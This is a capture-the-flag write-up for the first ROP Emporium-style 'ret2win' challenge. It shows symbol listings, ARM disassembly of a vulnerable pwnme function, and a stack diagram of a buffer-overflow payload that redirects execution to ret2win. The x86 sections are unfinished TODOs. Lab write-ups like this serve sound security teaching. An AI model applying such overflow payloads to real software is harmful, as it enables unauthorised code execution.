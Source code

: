 # ret2win

This is the first of the 8 challenges, it's also the simplest.
All binaries have the same vulnerability which is a buffer overflow in the `pwnme` function.

For this one, we can find the ret2win function by listing symbols of the file with nm.
```
$ nm ret2win
...
0000000000400756 t ret2win  # x86_64
...
0804862c t ret2win          # x86
...
000105ec t ret2win          # ARMv5
...
```
The objective become clear: return from `pwnme` into `ret2win`.

## x86_64: (`TODO)

## x86: (TODO)

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
...
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
...
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
The above disassembler output tells us there is a 32 bytes buffer.   
It is overflowed by the read call, asking for 56 bytes of user input.
On the stack, right below the local buffer, are stored `fp` and `lr`.
So, by writing 36 bytes beyond the buffer, we can overwrite the value that will be popped as `pc`
```
           Stack:         Payload:
         
 fp - 36: |buffer....|   |0x20202020|   padding (36 bytes)
          |..........|   |..........|
  fp - 4: |old_fp....|   |0x20202020|
      fp: |lr........|   |0x000105ec|   ret2win address
```
